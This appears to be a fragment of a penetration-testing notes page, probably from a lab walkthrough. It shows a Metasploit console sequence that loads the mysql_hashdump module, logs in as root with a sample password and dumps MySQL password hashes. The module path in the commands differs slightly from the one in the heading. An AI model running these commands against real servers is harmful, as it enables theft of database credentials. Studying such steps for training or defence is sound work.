 <figure><img src="../../../../.gitbook/assets/image (188).png" alt=""><figcaption></figcaption></figure>

> **`auxiliary/scanner/mysql/mysql_hashdump`**

```bash
msf5 > use auxiliary/mysql/mysql_hashdump
msf5 > show options
msf5 > set USERNAME root
msf5 > set PASSWORD twinkle
msf5 > run
```

<figure><img src="../../../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>
